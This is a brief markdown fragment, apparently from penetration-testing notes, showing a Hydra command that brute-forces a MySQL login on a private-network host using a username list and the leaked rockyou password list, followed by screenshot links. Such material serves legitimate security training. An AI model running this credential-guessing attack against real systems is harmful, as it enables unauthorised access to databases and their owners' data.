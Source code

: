 **Using Hydra**
```
hydra -L /usr/share/seclist/Usernames/usernames.txt -P /usr/share/seclist/Password/Leaked-Databases/rockyou.txt -e nsr -s 3306 192.168.1.103 mysql
```
![](../images/bruteforcing_mysql_login_using_hydra_1.png)
![](../images/bruteforcing_mysql_login_using_hydra_2.png)